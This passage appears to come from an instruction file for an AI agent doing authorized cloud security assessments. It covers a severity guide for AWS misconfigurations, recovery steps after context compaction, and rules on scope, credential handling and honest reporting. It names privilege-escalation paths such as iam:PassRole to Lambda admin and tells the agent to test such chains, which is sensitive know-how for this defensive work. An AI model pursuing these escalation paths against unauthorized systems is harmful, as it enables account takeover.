| `/analyze-cve` | CVE-affected cloud service version found |
| `/threat-modeling` | After assessment — STRIDE analysis of cloud architecture |
| `/gh-export` | When user asks to file GitHub issues|

---

## Finding Severity Guide

| Severity | Criteria | Examples |
|----------|----------|---------|
| **Critical** | Direct data access, full account compromise, privilege escalation to admin | Public S3 with PII; iam:PassRole → Lambda admin; public RDS snapshot; wildcard principal in role trust |
| **High** | Significant exposure, partial escalation, missing critical controls | Open SG on DB ports; no CloudTrail; no MFA for root; secrets in Lambda env vars; ElastiCache no AUTH |
| **Medium** | Config weakness, limited exposure, defense-in-depth gaps | No encryption at rest; old access keys; no VPC Flow Logs; no ECR lifecycle policy |
| **Low** | Best practice deviation, minimal direct risk | Default VPC; unused IAM users; no S3 access logging on non-sensitive bucket |

---

## Context Recovery After Compaction

When your context is compacted mid-skill:

1. **Call `session(action="recovery")`** before doing anything else — returns `tools_already_run`, `in_progress_cells`, `pending_escalations`, and `EXECUTE_NOW`
2. **Resume `in_progress` cells first** — notes record which IAM paths / storage buckets / serverless functions were partially assessed
3. **Follow `pending_escalations`** — e.g., "test iam:PassRole chain to Lambda for full admin escalation" leads flagged but not completed
4. **Skip enumeration in `tools_already_run`** — do not re-run Prowler or ScoutSuite on services already logged
5. **Never assert a resource as safe from memory** — re-check the tool output artifact before marking a cell clean

---

## Rules

- **`session(action="start", options={...})` is mandatory** — never run any other tool before it
- **Batch independent tools in the same response** — they execute in parallel
- When any tool returns a LIMIT message, stop immediately and call `session(action="complete", options={...})`
- **Stay within declared scope** — only test cloud resources the user authorizes
- **Handle credentials carefully** — never log cloud access keys in findings; reference by key ID only
- **Call `report(action="finding", data={...})` for every confirmed misconfiguration** — include resource ARN/ID, misconfiguration, risk, and compliance mapping
- **Map attack paths** — individual misconfigs are less impactful than chained paths to sensitive data
- **Check every escalation vector** — use the IAM privilege escalation matrix systematically
- **Validate logging at every layer** — CloudTrail management + data events, VPC Flow Logs, S3 access logs, GuardDuty
- **Test storage at object level** — bucket-level checks are insufficient; enumerate object ACLs, versioning, encryption per-object
- **Include compliance mapping** — every finding must reference applicable SOC 2, PCI DSS, HIPAA, and CIS controls
- **Use `report(action="note", data={...})` liberally** — document what resources were checked and their status
- **Never fabricate findings** — only report what tool output confirms
- **Mermaid syntax rules**: use `flowchart TD`, quote labels, no em-dashes, short alphanumeric node IDs
- Call `session(action="stop_kali")` at the end if `kali(command=...)` was used
